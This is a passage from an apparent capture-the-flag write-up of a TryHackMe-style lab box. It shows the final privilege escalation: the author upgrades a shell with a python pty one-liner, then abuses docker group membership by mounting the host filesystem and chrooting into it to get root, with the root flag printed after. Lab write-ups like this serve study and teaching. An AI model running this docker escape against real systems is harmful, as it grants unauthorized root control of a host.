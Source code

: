 Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/docker/), we see that we can exploit it to gain a root shell:

~~~
michael@the-marketplace:/opt/backups$ python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
michael@the-marketplace:/opt/backups$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
t /mnt shn -v /:/mnt --rm -it alpine chroot
# id
id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
~~~

## Root flag

~~~
# cat /root/root.txt 
cat /root/root.txt
THM{d4f76179c80c0dcf46e0f8e43c9abd62}
~~~
